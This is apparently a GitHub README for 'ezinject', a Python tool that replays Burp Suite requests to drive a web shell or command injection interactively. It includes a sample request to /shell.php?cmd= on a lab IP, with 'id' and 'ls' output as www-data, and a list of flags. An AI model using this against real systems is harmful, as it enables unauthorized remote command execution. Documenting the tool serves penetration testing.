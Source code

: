 # ezinject
Save requests from Burp Suite and interact with web shells or command injection on web applications the easy way.  
Just replace the command injection with &lt;EZINJECT&gt; or something of your choosing with the '-c' flag.

### Example
```
$ cat test.req
GET /shell.php?cmd=<EZINJECT> HTTP/1.1
Host: 192.168.56.6:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; Mozilla/5.0 ; Linux i686)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
Connection: close

$ python3 ezinject.py -r test.req -os linux -http
ez >  id                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ez >  ls                     
index.html
index.nginx-debian.html
shell.php

ez >
```
### Command line flags
```
$ python3 ezinject.py -h
usage: ezinject.py [-h] [-v] [-http] -r REQUESTFILE -os OS [-c COMMAND]
                   [-p PATTERN] [-first]

Interact with web shells or command injection on web applications.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Display server reponse headers
  -http                 Force connecting over HTTPS
  -r REQUESTFILE, --request REQUESTFILE
                        Burp Request file
  -os OS, --operating-system OS
                        Target operating system (Windows|Linux)
  -c COMMAND, --command COMMAND
                        Command to replace in the burp file, ensure this is
                        unique in the request (default: <EZINJECT>)
  -p PATTERN, --pattern PATTERN
                        Specify a pattern that is located either side of
                        command output to extract eg: --pattern ZZZ (this will
                        filter ZZZ<command output>ZZZ)
  -first                If command output is appended, this will print the
                        first occurence. (default: print the last occurence)
```

### Features
- Tab completion 
- (Ctrl-l or "clear" or "cls") clears the screen
- History
- Type "EzHelp" for Powercatch help commands (command not sent over the network)

### TODO
- Implement File Upload and Download functionality (Performed in segments via base64)
- Flag that will auto generate and filter string for command injection